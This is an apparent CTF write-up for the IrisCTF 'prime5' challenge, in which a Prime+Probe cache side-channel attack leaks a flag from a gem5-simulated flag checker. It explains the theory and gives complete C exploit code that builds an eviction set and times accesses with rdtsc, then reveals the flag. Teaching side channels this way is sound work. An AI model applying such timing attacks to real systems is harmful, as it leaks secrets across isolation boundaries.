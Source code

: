 # prime5 (misc, hard)

> My new simulated flagchecker service is free from any pesky channels outside of intended communication.

## Challenge
The challenge is about attacking a I/O service implemented on top of the gem5 simulator, which is a particularly accurate CPU simulator. Syscalls are disabled besides write(). You can provide an x86-64 binary and the simulator will run it. The simulation is configured with a unified cache and two memory blocks; one of which is used by the challenge flagchecker specifically and is not readable by the solver.

The I/O service implements a flagchecker which checks the flag bytes incrementally. It attempts to run in constant time by setting a response time as a constant offset from the start of the flag check. Additionally, it flushes all of its memory from the cache at the end to try to prevent cache attacks.

## Solution
The catch is that even if a cache line is flushed, it doesn't undo the fact that _which_ cache lines are touched depends on how much of the flag is checked, and just the accessing of memory through the cache can cause other cache lines to be evicted. This allows us to mount a cache attack usually known as *Prime+Probe*, where you *prime* the cache state so that the victim program modifies it in an observerable way, then *probe* the cache state after.

Caches are organized into sets, which are different isolated groups of cache entries that are indexed based on the memory address bits (physical address in this case). The size of the set is known as the associativity (8 in this challenge), and there are `CACHE_SIZE / CACHE_LINE_SIZE / ASSOCIATIVITY` different sets. Since this is running in a simulator, we know the physical addresses of all of our challenge code and memory, so we can easily allocate a buffer such that it has the correct cache set. We can mark 8 addresses that share the same cache set, which will completely fill it up. The cache's replacement policy is known as `TreePLRU`, which is a pseudo last recently used replacement policy, which basically means that if the cache set is full and a new cache line needs to replace an old one, the cache will try to always evict the cache line that was used the longest ago. The differences between LRU and TreePLRU aren't particularly important for this challenge; but TreePLRU was the most common replacement policy until recently (now often RRIP) in real-world desktop CPUs.

The 8 addresses we marked are known as an victim "eviction set" since accessing them evicts everything else in the cache set and fills it completely with these addresses. If we access our eviction set before the flagchecker runs, and the flagchecker accesses memory belonging to the same cache set, it will cause one of these addresses to be evicted. After running the flagchecker, we can measure the time it takes to access the element that might have been evicted to determine if the flagchecker accessed the specific cache line or not.

For this challenge, we first align the flagchecker before each guess so that if the new guessed character is correct, the flagchecker will advance 1 more byte and access a new cache line, causing our memory to be evicted. Then we can simply try each byte for each position.

Solution:

```c
#include <stdint.h>
#include <stddef.h>

#define EXIT asm volatile("mov rax, 60;syscall;");

const char hello[] = "Hello world!\n";
const char msg1[] = "guessed: ";
volatile char mem[0x1000000];

void write(char* s, uint64_t len) {
    asm volatile("mov rsi, %[s];mov rdx, %[len];mov rdi, 1;mov rax, 1;syscall;" : : [s]"r"(s), [len]"r"(len) : "rax", "rsi", "rdi", "rdx");
}

#define PAGE_SIZE 8192
#define PAGE_OFS 4096

char numOut[100] = {0};
char flag[32] = {0};
const size_t flag_len = 32;

#define MAX_UINT64_STR_LEN 21
// AI generated
int uint64_to_string(uint64_t value, char* str) {
    static char buffer[MAX_UINT64_STR_LEN];
    char* ptr = buffer + MAX_UINT64_STR_LEN - 1;  // Start at the end of the buffer

    *ptr = '\0'; // Null-terminate the string

    do {
        ptr--;
        *ptr = (value % 10) + '0'; // Convert the remainder to a character
        value /= 10;
    } while (value > 0);


    // Copy the string to the provided buffer if it's not NULL
    if(str != NULL) {
        char* src = ptr;
        while (*src != '\0') {
            *str++ = *src++;
        }
        *str = '\0'; // Null-terminate the destination string
    }


    return (buffer + MAX_UINT64_STR_LEN - 1) - ptr;  // Return the length of the string
}

void print_num(uint64_t num) {
    int s = uint64_to_string(num, numOut);
    write("-[out]: ", 8);
    write(numOut, s);
    write("\n", 1);
}

#define HIT_THRESHOLD = 100

void _start() {
    write(hello, sizeof(hello)-1);
    uint64_t t, t2;

    uint32_t count = 0;
    volatile char* victim = &mem[0];
    // align to page
    
    victim = (volatile char*)((uintptr_t)victim + PAGE_OFS);
    volatile char* victims[8] = {0};
    for(size_t i = 0; i < 8; i++) {
        victims[i] = (volatile char*)((uintptr_t)victim + PAGE_SIZE*i);
    }
    for(size_t i = 0; i < 8; i++) {
        *victims[i];
    }

    volatile char trash;
    for(size_t pos = 0; pos < flag_len-1; pos++) {
        // reset buffer to cl boundary at guess
        size_t target = (-1 - pos) % 0x1000;
        for(char guess = 0x20; guess <= '}'; guess++) {
            count %= 0x1000;
            for(; count != target; count++) {
                asm volatile("out 77, al;" : : "a"(1));
                count %= 0x1000;
            }
            if(pos > 0) {
                for(size_t known = 0; known < pos; known++) {
                    asm volatile("out 77, al;" : : "a"(flag[known]));   
                    count++;
                }
            }
            // guess
            asm volatile("out 77, al;" : : "a"(guess));
            count++;
            // remaining chars
            for(size_t known = pos+1; known < flag_len; known++) {
                asm volatile("out 77, al;" : : "a"(1));
                count++;
            }
            // to set up cache, evict the set
            for(size_t i = 0; i < 8; i++) trash = *victims[i];
            // trigger
            asm volatile("in al, 77;" : "=a"(trash) : "a"(trash));
            // time victim
            t = __builtin_ia32_rdtsc();
            trash = *victim;
            t2 = __builtin_ia32_rdtsc();
            print_num(t2-t);
            if((t2 - t) > 100) {
                write(msg1, sizeof(msg1)-1);
                print_num(guess);
                flag[pos] = guess;
                break;
            }
        }
    }
    flag[flag_len-1] = '}'; // known, no need to bother checking the response (p+p won't work here)

    write(flag, flag_len);
    write("\n", 1);
    EXIT
}
```

Flag: `irisctf{partitioned_cache_fails}`
